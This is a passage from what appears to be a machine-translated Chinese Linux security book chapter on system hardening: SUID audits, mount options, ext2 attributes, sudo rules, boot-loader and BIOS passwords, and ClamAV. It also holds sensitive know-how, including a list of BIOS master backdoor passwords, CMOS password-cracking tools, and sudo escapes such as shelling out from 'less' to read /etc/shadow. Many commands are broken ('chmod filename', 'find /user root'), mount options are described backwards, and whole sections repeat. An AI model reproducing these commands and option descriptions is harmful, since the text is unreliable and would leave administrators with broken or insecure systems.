你可以使用 `init` 命令来更改运行级别。例如，`init 3` 会切换到多用户网络模式，`init 6` 会重启系统。

```bash
# find / -perm -002 -type f -print
```

（`/dev` 中的许多特殊文件需要全局可写权限，因此我们将搜索限制在具有 `-type f` 的标准文件上。）

# SUID 和 SGID 文件

SUID（设置用户 ID）和 SGID（设置组 ID）文件的潜在危险应该是显而易见的。特别是，你应该警惕新创建的 SUID 文件，这些文件可能是黑客为了重新获得 root 权限而植入。

要生成一个 root 拥有的 SUID 文件列表，请执行此命令：

```bash
# find /user root -perm -4000 -print
```

对于 SGID 文件，使用

```bash
# find /user root -perm -2000 -print
```

当然，大多数 SUID 文件的这种设置都是有原因的；因此，在你开始对每个 SUID 文件进行大量检查之前，请停下来思考。像 `ping` 这样的二进制文件需要能够构建自定义数据包，而 XFree 需要能够探测硬件；其他 SUID 文件（如 `password` 和 `us`）需要写入只有这些用户才能访问的文件。

虽然移除文件的 SUID 状态可能会导致其对非 root 用户无法正常工作，但有时这可能是期望的行为。例如，从偶尔被滥用的工具 `ping` 中移除 SUID 标记，将防止非 root 用户执行 ping 操作。

在考虑这些因素的情况下，移除文件的 SUID 标记非常简单：

```bash
# chmod filename
```

为了处理第二个问题（后门 SUID 文件），你应该创建一个你的系统上存在的 SUID 文件列表，并定期运行之前提到的命令，注意任何差异之处。我们稍后在查看挂载选项时，会再次回到 SUID 文件问题上。

# 分区和挂载选项

一种经常被忽视的加固系统方法是通过使用一个经过深思熟虑的分区方案，并结合挂载选项的使用。基本的分区方案是拥有三个分区：swap、`/boot` 和 `/`。服务器通过为 `/var` 和 `/tmp` 设置独立分区获益匪浅，因为这不仅意味着它们可以存在于不同的物理磁盘上（这应该提高速率和访问时间），而且意味着如果攻击者尝试对系统进行邮件攻击或填满服务的日志文件，只有 `/var` 分区会受到影响。

为 Linux 文件系统层次结构的其他部分创建分区稍微复杂一些。在 FreeBSD 上，层次结构定义得非常紧密，基础安装的二进制文件存在于 `/usr` 下，管理员安装的软件存在于 `/usr/local/`。BSD 机器上的典型配置是为基础安装创建一个较小的分区，并单独挂载 `/usr/local/`。Linux 文件系统则更具无政府性，每个发行版的组织方式都略有不同。使用 `/usr/local/` 用于管理员添加的软件的想法通常是最佳方法，但除非你从源码安装（尽管通常也推荐这样做），否则你可能无法对包安装的位置拥有发言权。

所以，我们为什么对将文件系统分成单独分区感兴趣？答案是，这种方案允许我们为每个分区使用不同的挂载选项，这些选项可以带来稳健的安全。检查 `/etc/fstab` 文件可以查看每个分区当前正在使用哪些挂载选项：

```
/dev/hda1 swap swap defaults 0 0
/dev/hda2 / ext3 defaults 1 1
/dev/hdc1 /hdc1 auto defaults 1 0
/dev/hdd2 /hdd2 auto defaults 1 0
```


`/dev/cdrom mnt/cdrom iso9660 defaults noauto,owner,ro 0 0`

`/dev/fd0 mnt/floppy auto noauto,owner 0 0`

`devpts /dev/pts devpts gid5,mode=620 0 0`

`proc /proc proc defaults 0 0`

在这个示例中，四个硬盘分区是用默认选项挂载的，这些选项是可读写的，并允许配额和 SUID 文件。`cdrom` 被设置为 `noauto`（不自动挂载）、`owner`（仅允许挂载设备的用户，当然 `root` 用户可以卸载它）以及 `ro`（只读）。其他有用的选项是

- `quota`: 不在此分区上启用用户配额。
- `suid`: 不尊重文件上的 SUID/GID 位。
- `nodev`: 不识别块设备和字符设备。
- `noexec`: 忽略二进制文件上的可执行位。
- `ro`: 分区为只读。

# 242 Linux 网络安全

以下是为各种分区（假设它们存在）推荐的挂载选项：

```
/tmp: noexec, nosuid.
/var: noexec, nodev.
/home: nosuid, nodev.
/boot: ro (如果你重新编译内核，你需要重新挂载 /boot 为 rw)。
```

如果你为 `/usr` 和 `/usr/local` 使用单独的分区，你可能还想将 `/usr` 设置为只读。如果任何软件坚持要自己安装到 `/usr`，你必须将分区重新挂载为 `rw`。要实现这些更改，请相应编辑 `/etc/fstab`，并重新挂载分区使更改生效：

```bash
# mount /tmp -oremount
```

# Ext2 属性

Linux 文件系统模型的缺点之一是它未能为所有者遵循文件上的所有权限。例如，像下面的文件仍然可以被 `root` 写入，尽管没有设置写权限：

```
-r--r--r-- 1 root root 56 Feb 27
```

# 基础安全措施

要设置属性，使用 `chattr` 命令。例如，为了使 Apache 日志变为仅追加：

```bash
# chattr +a /var/log/access.log
# chattr +a /var/log/error.log
```

使用 `ls` 查看文件，它们看起来和以前一样：

```
$ ls /var/log/apache -l
total 7468
-rw--r--r-- 1 root root 820004 Apr 23 17:06 access_log
-rw--r--r-- 1 root root 6803965 Apr 24 15:51 error_log
```

我们需要使用 `lsattr`：

```
$ lsattr /var/log/apache
--a---- /var/log/error_log
--a---- /var/log/access_log
```

记住，任何这些日志的 `cron` 任务现在都会失败。决定对哪些文件和目录应用这些属性需要仔细思考，我们会稍后回到这个问题。

Ext2 属性可以使用 `chattr` 轻松移除，所以你可能会好奇它们的用途——毕竟，如果攻击者获得了 `root` 权限并想删除日志文件中的进入痕迹，他只需要在编辑之前执行 `chattr -i` 即可。事实上，Ext2 属性本身的作用有限；但正如你以后看到的，它们在更复杂的安全措施中起着重要作用。现在，只要知道大多数脚本小子从未听说过 `ext2` 属性，并且会对拒绝被截断的日志文件感到困惑即可。

# 6.5 委派 root 权限

在 `UNIX` 中，访问传统上采取的是“全有全无”的方法。`root` 是无所不能的，但几乎没有系统管理工作是由普通用户完成的。这在企业环境中引起很多问题，因为初级管理员通常被任命处理系统的特定区域。一个典型的例子就是 `Web` 网站（也许 `DNS` 或邮件）。在大多数时候，这个用户不需要 `root` 权限，但偶尔他需要执行诸如修改 `httpd.conf`、重启 `Apache`、编辑 `.ini` 文件等等。对于偶尔需要以 `root` 身份执行命令的用户，盲目地提供 `root` 密码是自找其乐，尽管强迫他们执行此类操作会增加你的工作量并阻碍他们完成工作。解决方案是 `SUDO`（超级用户）`[SUDO]`，它允许你为特定用户授予特定操作的 `root` 权限。

# 244 Linux 网络安全

大多数发行版提供在安装时安装 `SUDO`。（由于某种原因）如果你的系统中没有出现 `SUDO`，可以从其主页 `http://www.courtesan.com/sudo/` 获取最新版本。通常情况下，我们会说“查阅手册页（`man pages`）”来开始，但 `SUDO` 的 `man` 页¹可能会让人困惑，因此我们在这里留了大量的篇幅来配置 `SUDO`。

### /etc/sudoers

`SUDO` 的核心是 `/etc/sudoers` 配置，它控制着 `SUDO` 操作的每一个方面。与 `/etc/passwd` 一样，直接编辑该文件是绝对不允许的——`sudoers` 软件包提供了 `visudo` 来实现此目的。`visudo` 不仅会锁定文件以防止损坏（类似于 `vipw`），还提供语法检查。

让我们从一个基础示例开始：

```
pete192.168.0.4=/bin/kill, /bin/killall
```

正如你猜的那样，第一个条目是适用于该规则的用户名。第二个条目是规则有效的主机。`/etc/sudoers` 在设计时考虑了网络，如果格式正确，它可以复制到其他主机而无需任何修改。接下来是一个等号，后面是一系列逗号分隔的命令列表，该用户可以以 `root` 身份执行这些命令。指定完整路径对于防止滥用至关重要。

```
pete@zeus:-$ ps aux | grep sendmail
root 424 0.0 0.1 3284 404 ? S Apr29 0:00
sendmail: accepting connections
smsp 425 0.0 0.1 3284 352 ? S Apr29 0:00
sendmail: Queue runner@00:25:00 for /var/pool/clientmqueue
pete 12445 0.0 0.1 1468 460 pts/10 R 11:08 0:00
grep sendmail
pete@zeus:-$ sudo kill -HUP 422
Password:
pete@zeus:-$ sudo /sbin/reboot
Sorry, user pete is not allowed to execute '/sbin/reboot'
as root on zeus.
```

## 基本系统安全措施

你可以看到，用户被允许以 `root` 身份执行 `kill`，但不能重启¹¹`/bin/kill` 可能不是允许调皮的用户杀死关键系统进程的最佳命令，但它比让用户拥有完全 `root` 权限要好。注意，上一个示例中提示的密码是 `Pete` 的密码——而不是 `root` 的。注意，第二次 `sudo` 调用没有提示密码；默认情况下，`SUDO` 会缓存密码五分钟，以避免重复输入。

你可以轻松地仅通过这一个命令就配置 `SUDO`，但这只是冰山一角：`/etc/sudoers` 还允许许多其他选项，我们将在接下来对其进行审查。

### User_Alias

这允许你在引用用户时创建一个别名列表。如果 `Rod`、`Jane` 和 `Freddy` 都是初级管理员，输入：

```
rod 192.168.0.5=/sbin/halt, /sbin/reboot. /sbin/shutdown
jane 192.168.0.5=/sbin/halt, /sbin/reboot. /sbin/shutdown
freddy192.168.0.5=/sbin/halt, /sbin/reboot. /sbin/shutdown
```

很快就会变得疲劳。相反，我们可以为他们创建一个别名：

```
User_Alias JUNIORS = rod, jane, freddy
```

现在引用这些用户时，我们可以使用别名：

```
JUNIORS 192.168.0.5=/sbin/halt, /sbin/reboot, /sbin/shutdown
```

### Cmnd_Alias

对三个允许的命令设置别名也会有用：

```
Cmnd_Alias START=/sbin/halt, /sbin/reboot, /sbin/shutdown
```

现在我们只需要说：

```
JUNIORS 192.168.0.5=STOP
```

### Host_Alias

类似地，我们可以为主机设置别名——通过主机名或 `IP` 地址：

```
Host_Alias DMZ=192.168.10.1, 192.168.10.2, 192.168.10.3, 10.0.0.*
```

这种别名的一个用途是允许初级管理员处理用户经常创建失控进程的工作站：

```
Host_Alias WORKSTATIONS=/bin/kill
```

### Runas_Alias


当然，这允许初级管理员运行任何进程，这可能理想。让他们只以普通用户身份执行命令更好。这可以通过在等号后的括号中列出用户来实现：

```
Runas_Alias WORKSTATIONS=(rita,bob) /bin/kill
```

正如你现在猜到的，这些用户名也可以设置别名：

```
Runas_Alias USERS=paul, george, ringo
WORKSTATIONS=(USERS) /bin/kill
```

### Defaults

`/etc/sudoers` 的第三部分（另外两部分是别名和规则）允许你更改 `SUDO` 的默认设置。我们之前提到过，执行 `sudo` 时会提示用户输入密码。默认情况下，`SUDO` 会记住密码五分钟，使用户无需每次执行都重新输入。我们可以轻松更改此：

```
Defaults timestamp_timeout=1, passwd_tries=2
```

强制用户在一分钟后重新输入密码，并限制输入尝试次数（默认为三次）。要限制特定用户，在 `Defaults` 单词后加上冒号：

```
Defaults:john timestamp_timeout=1
```

`Defaults` 部分的另一个用法是自定义日志。`SUDO` 的默认行为是用 `syslog` 失败尝试；但在安全系统中，这是不够的。记录从 `sudo` 执行的所有命令：

```
Defaults log=/var/log/sudo.log
```

### sudo 安全

`sudo` 花了大量精力确保命令的安全执行。通过执行 `sudo -V` 可以显示其使用的默认设置列表：

```
# sudo -V
version 1.6.6
```

| 设置 | 值 |
| :--- | :--- |
| 认证方法 | 'passwd' |
| 使用 syslog 记录日志 | local |
| 用户认证成功时的 syslog 优先级 | notice |
| 用户认证失败时的 syslog 优先级 | alert |
| 如果用户不在 sudoers 中 | |
| 第一次运行 sudo 时讲解 | |
| 默认要求认证 | |
| Root 可以运行 sudo | |
| 允许收集一些有用的错误消息 | |
| 日志文件行（0 为不记录） | 80 |
| 认证时间超时 | 5 分 |
| 密码提示超时 | 5 分 |
| 输入密码的次数 | 3 |
| 使用的 umask | 077 或 022 |
| 邮件程序路径 | /usr/sbin/sendmail |
| 邮件程序的标志 | -t |
| 发送邮件的地址 | root |
| 邮件消息的主题行 | *** SECURITY information for %h *** |
| 错误消息 | Sorry, try again. |
| 认证路径 | /var/run/sudo |
| 默认密码提示 | Password: |
| 执行命令的默认用户 | root |
| visudo 使用的编辑器路径 | /usr/bin/vi |

检查完整性的环境变量：

```
LANGUAGE
LANG
LC_*
```

要删除的环境变量：

```
BASH_ENV
ENVCAP
TERMPATH
TERMINFO_DIRS
TERMINFO
LD*
LD_*
PATH_LOCALE
NLSPATH
HOSTALIASES
RES_OPTIONS
LOCALDOMAIN
IFS
```

何时对 `list` 命令需要密码

何时对 `verify` 命令需要密码

本地 IP 地址和子掩码对：

```
192.168.10.10 / 0ffff00
192.168.0.2 / 0ffff00
192.168.136.1 / 0ffff00
192.168.195.1 / 0ffff00
```

默认清除的环境变量表：

```
BASH_ENV
ENVCAP
TERMPATH
TERMINFO_DIRS
TERMINFO
RLD*
LD_*
PATH_LOCALE
NLSPATH
HOSTALIASES
RES_OPTIONS
LOCALDOMAIN
IFS
```

## 否定规则

`SUDO` 允许通过在命令前加感叹号来否定命令：

```
pete=/usr/bin/su !*, /usr/bin/su !root
```

这将允许用户 `su` 到机器上 `root` 以外的任何账户。使用否定规则时需要非常小心地预测每种可能性。例如，我们希望允许初级管理员以 `root` 身份执行机器上的安全审计工具，因此我们添加了规则：

```
Cmnd_Alias SEC=/usr/bin/nmap, /usr/local/sbin/nuss,
/usr/sbin/pof, /usr/local/sbin/ettercap
```

```
ADMINS admin.lan=SEC
```

不幸的是，这个规则很容易被绕过。没有什么能阻止任何管理员执行 `/bin/sh`（或者 `/bin/bash`, `/bin/tash`, `/bin/ash`, `/bin/zsh` 等），给他们一个可以在其中执行任何命令的 `root` shell。或者他们可以简单地复制 `/usr/bin/nmap` 并执行它。这个故事的教训是，在使用否定规则时需要非常小心；事实上，除非你完全确定自己在，否则最好完全避免它们。

## 限制命令参数

还必须确保合法允许的命令不会被滥用。允许另一个用户以 `root` 身份使用 `n` 命令来分担用户管理的某些责任可能是诱人的。然而，没有什么能阻止他创建一个具有 `root` 权限的新账户，从该账户可以登录并运行任何命令——包括删除的。

`sudo` 日志记录在 `/var/log/messages` 中。另一个考虑不周的配置是允许具有 DNS 职责（例如）的用户以 `root` 身份运行 `vi`，其目的是是允许他编辑 `/etc/named.conf` 和 `/var/named` 下的区域文件。恶意用户可以利用这种权限编辑 `/etc/passwd` 或更改他在 `/etc/sudoers` 中的权限。

在授予特定命令的 `SUDO` 访问之前，你应该充分了解该命令提供的任何可能被滥用的不为人知的功能：分页器 `more` 和 `less` 是两个非常典型的例子。这两个工具可以逐屏查看文本文件的内容，这在你在虚拟控制台上工作且无法滚动屏幕时特别有用。`more` 和 `less` 提供的一个不为人知的选项是，可以在分页期间通过执行命令来执行 shell 命令，例如执行 `cat /etc/shadow`。对于授予用户访问这些工具之一的 `root` 权限以查看系统日志的管理员来说，这可能导致整个系统被攻破的根源。明智地使用组（如前文所述）可以解决这个问题，以及 DNS 问题。

`SUDO` 不仅允许控制可以执行哪些命令，还允许管理员配置传递给命令的参数。这种用法的一个典型例子是 `kill` 命令，它用于向进程发送信号。共有 31 个 `kill` 信号，但最常见的是 `SIGHUP`（-1 或 `kill -HUP`），用于强制进程重新读取配置文件；以及 `SIGKILL`（-9 或 `kill -KILL`），它会杀死相关进程。允许具有 DNS 职责的用户向 `BIND` 等守护进程发送 `SIGHUP` 信号，但不允许其杀死进程，这将是有益的。这可以通过以下 `/etc/sudoers` 条目实现（假设 `DNSADMIN` 已在 `user_alias` 中预定义）：

```
DNSADMIN = /bin/kill -1, /bin/kill -HUP
```

`kill` 允许以数字或名称指定信号，因此我们包含了两者（`kill -1` 显示可用信号列表及其数字）。我们还应该限制 `killall` 命令，因为它的功能与 `kill` 非常相似：

```
DNSADMIN = /bin/kill -1,
/bin/kill -HUP,
/bin/kill -9,
/bin/kill -KILL
```

# 密码缓存

如前所述，`SUDO` 缓存密码是为了方便连续执行多个 `sudo` 命令的用户，默认时间为五分钟。如果用户离开控制台且无人看管，这会为攻击者创建一个机会窗口，因此你可能想要减小此值。可以使用 `/etc/sudoers` 文件中的 `timestamp_timeout` 指令更改此行为，如下例所示。

设置超时值为一分钟：

```
Defaults timestamp_timeout = 1
```

禁用密码缓存——用户将始终输入密码：

```
Defaults timestamp_timeout = 0
```

当 `timestamp_timeout` 的值为 -1 时，用户只需提供一次其其他密码；密码会被记住，即使用户注销也是如此。与其他默认设置一样，可以使用 `Defaults:username` 格式按用户为基础控制密码缓存：

```
Defaults:webadmin timestamp_timeout=1
```


一个更微妙的问题是，这种密码缓存（默认情况下）是全局应用的。因此，如果用户登录了多个会话，在其中一个会话中执行 `sudo` 命令产生的缓存密码将适用于所有其他会话。同样，攻击者可以利用这一点在不需要密码的情况下执行 `sudo` 命令。

`TTY tickets` 是控制此行为的配置选项。启用此选项后，密码将仅缓存于特定终端，而不是全局。这对于某些用户来说可能有点不方便，但通常是一个好主意，并且可以通过该行启用：

```
Defaults TTY_TICKETS
```

# 日志

`SUDO` 会记录其操作以及用户在 `/var/log/messages` 中的操作，通过 `grep` 字符串 `sudo:` 可以轻松找到它们：

```bash
# grep /var/log/messages
May 28 22:34 zeus sudo: TTY=pts/4 ; PWD=/home/; COMMAND=list
May 28 22:36 zeus sudo: TTY=pts/4 ; PWD=/home/; COMMAND=/bin/kill -9
```

每条日志条目包含用户名、执行的命令以及时间戳。如果由于以 `root` 身份执行命令而出现问题，作案者很容易被追溯。为了发出警告，你可能希望配置 `SUDO` 在用户尝试非法使用时发送电子邮件。配置选项有：

- `mail_always`: 每当用户通过 `sudo` 执行命令时发送电子邮件。
- `mail_badpass`: 当在使用 `sudo` 时输入错误的密码发送电子邮件。
- `mail_no_user`: 当尝试执行 `sudo` 命令的用户不在 `/etc/sudoers` 中时发送电子邮件。
- `mail_no_host`: 当用户在 `/etc/sudoers` 中但从不允许的主机执行命令时发送电子邮件。
- `mail_no_perms`: 当用户在 `/etc/sudoers` 中但执行某些内容时发送电子邮件。

这些标志不需要任何参数，只需通过在 `Default` 指令中添加即可启用。例如：

```
Defaults mail_no_perms
Defaults mail_badpass
```

以下选项与邮件过程有关，但在大多数情况下，默认应该是接受的：

- `mailpath`: 邮件程序的完整路径。
- `mailflags`: 应传递给邮件程序的任何标志。
- `mailto`: 应该接收邮件的用户。
- `mailsub`: 邮件的主题。

这些选项在标准的 `value=""` 语法中设置：

# 物理安全

我们现在关注物理安全问题，这是 Linux 安全中经常被忽视的一个方面。你可能完全信任组织的员工，但是否有办法阻止攻击者（可能伪装成技术人员）走到机器旁并重启到单用户模式从而获取 `root` shell？入侵者获得物理访问的主要危险是：在本节中，我们涵盖了这些问题的预防措施：

- 重新配置 `BIOS` 使光驱或软驱可启动
- 向内核传递额外的启动参数（例如要求系统以单用户模式启动）
- 从光驱或软驱启动系统
- 物理移除包含敏感数据的硬盘
- 安装硬件键盘记录器以检测密码等敏感信息
- 访问无人看管的 `root` 会话

# 移除光驱和软驱

最简单的措施之一是从机器上物理移除光驱和软驱，防止攻击者从可移动介质启动。这种方法的缺点是，如果你需要光驱或软驱（例如安装应用程序或使用救援磁盘），你必须关闭机器并重新添加它们。尽管如此，这仍然比简单的禁用它们更安全。

# 机箱锁

许多 `PC` 配有机箱锁，这可以阻止拆卸机壳：我们用“阻止”一词是因为这种锁通常很脆弱，无法阻止坚定的攻击者。此外，某些机箱上的锁还可以防止用户重启系统或添加/移除键盘或鼠标等外围。

# Linux 网络安全

## 位置

在可能的情况下，服务器——通常不需要接触——应该锁在安全的通风房间内。

## 键盘记录器

硬件键盘记录器是位于键盘 `PS/2` 插头和主板插座之间的小设备，静默记录击键。数据存储在非易失性内存中，以后可以轻松访问，可以通过物理移除设备或（如果攻击者具有登录权限）输入密码。键盘记录器通常是小型圆柱设备，尺寸与 `PS/2` 插头相似，通过检查机箱后面可以很容易发现。

## BIOS

大多数 `PC` 允许设置 `BIOS` 密码，以防止未经授权重新配置机器或要求在启动时输入密码。两种方法都是很好的威慑，但你应该注意，在第二种情况下，如果系统崩溃或管理员尝试通过 `SSH` 会话重启，这将阻止机器自动重启。这种行为在服务器上可能非常不方便。与这里概述的许多方法一样，`BIOS` 密码仍然会被坚定的攻击者破解。`BIOS` 由小型内部电池供电，断开电池（这需要拆卸机壳）将把 `BIOS` 重置为出厂默认值，清除任何设置的密码。另一个问题是许多制造商硬编码了一个主密码，在用户忘记设置的密码时可访问 `BIOS`。常见的主密码包括 `Award`、`AWARD_SW`、`AMI`、`AMI_SW`、`bios`、`cmos` 和 `j262`。要确定你的 `BIOS` 是否有主密码，请咨询制造商网站。与许多其他密码一样，`BIOS` 密码也受到解密或暴力破解技术的影响；此问题的两个优秀工具是来自 `cgsecurity` 的 `CmosPwd` (`http://www.cgsecurity.org/`) 和 `bluefish` (`http://www.11a.nu/`)，它们在 `DOS` 或 `Linux` 上运行。

## 引导加载程序

`Grub` 和 `LILO` 是 `Linux` 最常用的两种引导加载程序，它们都在启动序列期间提供密码保护。

### 在 LILO 中配置密码

在 `LILO` 中，可以通过向 `LILO` 配置文件 (`/etc/lilo.conf`) 中添加 `password=` 选项来引入密码。然而，此选项的含义是变化的，必须通过第二个选项来量化：强制（`mandatory`）或限制（`restricted`）。在 `mandatory` 模式下，必须向系统提供密码；在 `restricted` 模式下，只有当用户想要传递额外的内核参数时才需要密码。由于使用 `mandatory` 选项执行远程重启存在问题，我们建议使用 `restricted`。

一个带有密码保护的 `/etc/lilo.conf` 示例如下：

```
# LILO 配置文件

# LILO 全局部分开始
boot = /dev/hda
message = /boot/boot_message.txt
prompt
timeout = 1200
password=changeme
restricted
# LILO 全局部分结束
```

```
image = /boot/vmlinuz
root = /dev/hda2
label = 2.4.20_kernel
read-only
```

```
image=/boot/bz2.6
root = /dev/hda2
label = 2.6.2_kernel
read-only
```

修改 `/etc/lilo.conf` 后，别忘记运行（作为 `root` 用户）`/sbin/lilo` 来重新安装 `LILO` 引导加载程序。你还应该确保 `/etc/lilo.conf` 仅 `root` 可读（`chmod 600`），因为它包含明文密码。

### 在 Grub 中配置密码

`Grub` 提供了类似的功能，允许通过添加以下行到 `/etc/grub.conf` 来启用密码保护，取决于你是否想使用加密/哈希密码：

```
password <PASSWORD>
```

或

```
password -md5 <PASSWORD>
```

对于前者，以明文形式输入密码；对于后者，你需要输入密码的 `MD5` 哈希值。生成此哈希值的方法是启动 `grub` 交互式 shell（通过输入 `grub`），并使用 `md5crypt` 命令：

```
grub> md5crypt

Password: ******\*\*
Encrypted: $1BFkokP1Lc15gpmQoY2wdrgQrnOP0
```

在重启时，必须输入此密码才能执行任何交互式命令。

## 禁用 Ctrl-Alt-Del

在 `x86` `PC` 上，`Ctrl-Alt-Del` 序列（又称“三指礼”）会导致机器重启——这在公共环境中可能不是理想的行为，因为任何用户都可以执行它，而不仅仅是 `root`。

要禁用 `Ctrl-Alt-Del`，请用文本编辑器打开 `/etc/inittab`，找到以下行：

```
# What to do at the "Three Finger Salute"
ca::ctrlaltdel:/sbin/shutdown -t5 -r now
```

并将其注释掉。你需要通过发布以下命令来重启 `init`：

```
# /sbin/init q
```

## 在单用户模式下要求密码

进一步的调整将帮助解决攻击者通过重启系统进入单用户模式，从而在无需密码的情况下获取 `root` shell 的问题（如第 6.6 节开头提到的）。如果你的 `/etc/inittab` 文件尚未包含以下行，添加这些行将要求 `root` 在单用户模式下输入密码：


# 基础系统安全措施

## 在 LILO 中设置密码

在 `LILO` 中，可以通过向 `LILO` 配置文件（`/etc/lilo.conf`）中添加 `password=` 选项来引入密码。然而，此选项的含义是变化的，必须通过第二个选项来量化：强制（`mandatory`）或限制（`restricted`）。在 `mandatory` 模式下，必须向系统提供密码；在 `restricted` 模式下，只有当用户想要传递额外的内核参数时才需要密码。由于使用 `mandatory` 选项执行远程重启存在问题，我们建议使用 `restricted`。

一个带有密码保护的 `/etc/lilo.conf` 示例如下：

```
# LILO 配置文件

# LILO 全局部分开始
boot = /dev/hda
message = /boot/boot_message.txt
prompt
timeout = 1200
password=changeme
restricted
# LILO 全局部分结束
```

```
image = /boot/vmlinuz
root = /dev/hda2
label = 2.4.20_kernel
read-only
```

```
image=/boot/bz2.6
root = /dev/hda2
label = 2.6.2_kernel
read-only
```

修改 `/etc/lilo.conf` 后，别忘记运行（作为 `root` 用户） `/sbin/lilo` 来重新安装 `LILO` 引导加载程序。你还应该确保 `/etc/lilo.conf` 仅 `root` 可读（`chmod 600`），因为它包含明文密码。

`Grub` 提供了类似的功能，允许通过添加以下行来启用密码保护：

```
password <PASSWORD>
```

或

```
password -md5 <PASSWORD>
```

添加到 `/etc/grub.conf`，取决于你是否想使用加密/哈希密码。对于前者，以明文形式输入密码；对于后者，你需要输入密码的 `MD5` 哈希值。生成此哈希值的方法是启动 `grub` 交互式 shell（通过输入 `grub`），并使用 `md5crypt` 命令：

```
grub> md5crypt

Password: ******\*\*
Encrypted: $1BFkokP1Lc15gpmQoY2wdrgQrnOP0
```

在重启时，必须输入此密码才能执行任何交互式命令。

## 禁用 Ctrl-Alt-Del

在 `x86` PC 上，`Ctrl-Alt-Del` 序列（又称“三指礼”）会导致机器重启——这在公共环境中可能不是理想的行为，因为任何用户都可以执行它，而不仅仅是 `root`。

要禁用 `Ctrl-Alt-Del`，请用文本编辑器打开 `/etc/inittab`，找到以下行：

```
# What to do at the "Three Finger Salute"
ca::ctrlaltdel:/sbin/shutdown -t5 -r now
```

并将其注释掉。你需要通过发布以下命令来重启 `init`：

```
# /sbin/init q
```

## 在单用户模式下要求密码

进一步的调整将帮助解决攻击者通过重启系统进入单用户模式，从而在无需密码的情况下获取 `root` shell 的问题。如果你的 `/etc/inittab` 文件尚未包含以下行，添加这些行将要求 `root` 在单用户模式下输入密码：

```
# what to do in single-user mode
is:S:wait:/etc/init.d/rc S
--:S:respawn:/sbin/login
```

取决于系统的物理安全性，你可能觉得这有必要，也可能认为不必要。此外，考虑到如果你忘记 `root` 密码或拥有 `root` 权限的恶作剧者更改了密码，无密码的 `root` 访问有时会有用。

## 设置自动登出时间

设置自动登出时间对于 `root` 和普通用户来说通常都是非常好的主意。在 `Bash` shell 中，这通过设置 `TMOUT` 环境变量来实现。要为所有用户设置登出策略，请编辑 `/etc/profile` 并添加：

```
export TMOUT=1800
```

其中 `1800` 是以秒为单位的超时值（在这种情况下为 30 分钟）。适用于系统上的所有用户；如果你觉得这太严格了，可以通过将上述行添加到用户主目录下的 `.bashrc` 来按账户设置自动登出时间。记住，这只是一个默认值——没有什么能阻止用户更改或禁用它。

## 会话锁定

许多桌面环境（如 `KDE`）提供了锁定屏幕选项或在屏幕保护程序上设置密码的功能。对于这些，`xlock` 提供了类似的作用，通过锁定会话直到提供密码。然而，如果你从控制台启动 `X`，攻击者可以通过 `ctrl-c` 切回控制台，从而掉入 shell。类似的工具 `vlock` 可锁定一个或多个虚拟控制台。默认情况下，`vlock` 只锁定当前控制台，但使用 `-a` 选项可以禁用所有控制台。

## 本章总结

在本章中，我们查看了无论 `Linux` 系统在网络中扮演什么角色，都应该实现的许多基本措施；这些措施同样适用于工作站、防火墙和服务器。为了帮助你加固网络上的系统，我们提供了以下检查清单，帮助总结这些内容的要点：

- 系统是否对 `/passwd` 使用了 `MD5`？`MD5` 是最新的且安全性更强。

- 你是否对密码实施了策略，例如最小长度和更改频率？`PAM` 可以在这方面帮助，或者你可以使用 `/etc/shadow`。

- 是否已经禁用了 `Ctrl-Alt-Del`？

- 是否在单用户模式下要求密码？

- 是否设置了自动登出时间？

- 是否使用了会话锁定？

# 7 桌面安全

## 本章内容

- 病毒与蠕虫

- 安全网页浏览


- 电子邮件

- X Windows

到目前为止，本书的重点一直在 `Linux` 作为网络服务器的安全性上。在本章中，我们将关注与客户端应用程序和 `Linux` 桌面相关的安全性。尽管 `Linux` 在安全市场上取得了巨大成功，但它作为工作站的普及程度并没有那么惊人，许多用户更倾向于 `Windows` 桌面的便利性和安全性。这非常遗憾；除了像 `Red Hat` 和 `SuSE` 这样几乎像 `Windows` 一样易于使用的发行版外，`Linux` 桌面/窗口系统要强大得多。遗憾的是，这种强大是需要代价的，在本章的后后部分，我们将讨论 `X Windows` 客户端/服务器模型的安全性影响。

我们还将探讨网页浏览和脚本问题，无论你运行什么操作系统，这都是潜在的威胁。随着浏览器插件变得越来越流行（更不用说强大），尽管在该领域有了许多改进，恶意网站对本地系统的威胁仍然是一个令人关注的问题。我们还涵盖了 `Cookie` 主题以及它们对用户隐私的影响。

除了网页浏览，电子邮件是另一个安全和隐私持续存在问题的客户端领域。“7.3 电子邮件”节讨论了恶意内容的威胁和垃圾邮件保护措施，然后讨论了使用 `PGP` 和 `GnuPG` 进行隐私保护。

然而，我们首先回到病毒和蠕虫主题（该主题在第 2 章“理解问题”中介绍过），这次我们将关注更具实用性的检测和预防问题。

## 7.1 病毒与蠕虫

`Windows` 用户的噩梦——病毒和蠕虫——在 `UNIX` 上并不常见。关于它们是否构成了严重风险，争论仍在。有些人声称这完全是炒作，是防病毒软件公司为了从利润丰厚的 `Linux` 服务器市场获利而发明的；而另一些人则认为这是一个等待爆炸的定时炸弹。我们处于这两者之间：`Linux` 确实让病毒的传播变得更加困难并限制了损害范围，但损害的可能性是存在的；而且有很多良好的病毒扫描器可以免费使用，使用它们是有意义的。

### Clam

我们喜欢的防病毒扫描器是 `ClamAV`，可以从 `http://www.clamav.net/` 免费获取。`Clam` 声称能够识别超过 20,000 种病毒、蠕虫和木马，病毒定义数据库会定期更新。`Red Hat`/`Fedora`、`Debian`、`Mandrake` 和 `PLD`（波兰 `Linux` 发行版）都有二进制版本，但像一样，我们建议从源码安装。

第一步是在你的系统中创建一个新的组和用户供 `Clam` 使用：

```bash
# groupadd clamav
# useradd -g clamav -s /bin/nologin clamav
```

之后，解压源码 tar 包，并使用标准的 `configure`、`make`、`install` 来编译并安装 `Clam`。

使用实际扫描器 `clamscan` 非常简单。只需指定要扫描的目录，并使用 `-r` 切换开启递归扫描：

```bash
# clamscan -r /home/pete/
```

每个被扫描文件的状态会在屏幕上滚动——显示 `OK`（正常）或 `FOUND`（发现）。如果是后者，还会给出病毒名称：

```bash
/home/pete/clamav-0.15/support/amavisd/README: OK
/home/pete/clamav-0.15/test/eicar.com: Eicar-Test-Signature FOUND
/home/pete/clamav-0.15/clamscan/Makefile.am: OK
```

在这种情况下，没什么需要担心的；`eicar.com` 是 `Clam` 提供的用于测试扫描器的虚拟病毒。

### freshclam

`freshclam` 程序用于更新病毒定义文件。`freshclam` 可以作为守护进程运行，也可以像下面的示例那样——从命令行运行：

```bash
# freshclam
ClamAV update process started at Fri May 7 17:49:26 2004
Reading CVD header (main.cvd): OK
main.cvd is up to date (version: 22, sigs: 20229, f-level: 1, builder: tkojm)
Reading CVD header (daily.cvd): OK
Downloading daily.cvd [*]
